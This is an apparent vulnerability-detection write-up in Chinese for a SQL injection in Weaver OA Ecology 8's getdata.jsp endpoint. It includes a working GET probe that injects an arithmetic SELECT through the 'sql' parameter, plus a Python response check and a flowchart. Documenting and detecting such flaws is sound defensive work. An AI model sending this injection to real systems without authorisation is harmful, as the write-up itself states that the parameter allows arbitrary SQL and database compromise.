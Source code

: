 # 泛微OA Ecology 8 SQL注入漏洞（ecology-v8-sqli）检测说明

## 漏洞简介

泛微OA Ecology 8 存在SQL注入漏洞，攻击者可通过GET请求注入恶意SQL语句，进而获取数据库敏感信息、篡改数据，甚至以管理员权限执行未授权操作。

## 影响范围

- 产品：泛微OA Ecology 8
- CVE编号：无（社区编号 ecology-v8-sqli）
- 危害等级：Critical

## 漏洞原理

系统对`/js/hrm/getdata.jsp`接口的`sql`参数未做有效过滤，攻击者可直接拼接SQL语句，造成注入。

## 利用方式与攻击流程

1. 攻击者构造带有SQL注入payload的GET请求，利用`sql`参数执行任意SQL。
2. 服务器端未对参数进行安全处理，直接拼接执行SQL。
3. 数据库执行恶意SQL，返回特征数据。
4. 攻击者分析响应内容，确认漏洞存在。

## 探测原理与流程

### 探测请求的构造

```http
GET /js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select+547653*865674+as+id HTTP/1.1
Host: target.com
```

- `sql`参数注入了`select 547653*865674 as id`，用于判断是否存在注入点。

### 预期响应与交互

- 响应体需包含`474088963122`（即547653*865674的结果），表明SQL语句被执行。
- HTTP状态码为200。

### 判定逻辑

```python
def is_vulnerable(response):
    if '474088963122' in response.text and response.status_code == 200:
        return True
    return False
```

### 检测流程Mermaid图

```mermaid
graph TD
    A[发送带注入payload的GET请求] --> B[接收HTTP响应]
    B --> C{响应体含474088963122?}
    C -- 否 --> F[非漏洞]
    C -- 是 --> D{状态码为200?}
    D -- 否 --> F
    D -- 是 --> G[判定存在SQL注入漏洞]
```

## 参考链接

- [PeiQi文库-泛微OA V8 SQL注入漏洞](http://wiki.peiqi.tech/PeiQi_Wiki/OA%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/%E6%B3%9B%E5%BE%AEOA/%E6%B3%9B%E5%BE%AEOA%20V8%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html) 